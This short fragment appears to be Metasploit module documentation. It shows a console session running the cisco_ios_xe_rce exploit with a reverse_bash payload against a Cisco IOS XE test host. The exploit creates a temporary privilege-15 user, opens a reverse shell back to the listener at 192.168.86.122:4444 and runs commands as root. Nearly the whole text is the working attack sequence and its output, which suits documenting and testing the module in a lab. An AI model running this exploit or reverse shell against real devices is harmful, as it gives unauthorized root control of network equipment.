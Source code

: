 ```
Architecture : x64
Meterpreter  : python/linux
meterpreter >
```

```
msf6 exploit(linux/misc/cisco_ios_xe_rce) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash
msf6 exploit(linux/misc/cisco_ios_xe_rce) > exploit 
[*] Started reverse TCP handler on 192.168.86.122:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Cisco IOS XE Software, Version 16.12.03
[*] Created privilege 15 user 'JJgILIEn' with password 'EkMpGWih'
[*] Removing user 'JJgILIEn'
[*] Command shell session 12 opened (192.168.86.122:4444 -> 192.168.86.114:61982) at 2025-03-03 20:38:16 +0000

id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:polaris_nginx_t:s0
uname -a
Linux test2_c1000v 4.19.64 #1 SMP Wed Dec 11 10:30:30 PST 2019 x86_64 x86_64 x86_64 GNU/Linux
exit
[*] 192.168.86.114 - Command shell session 12 closed.
msf6 exploit(linux/misc/cisco_ios_xe_rce) > 
```
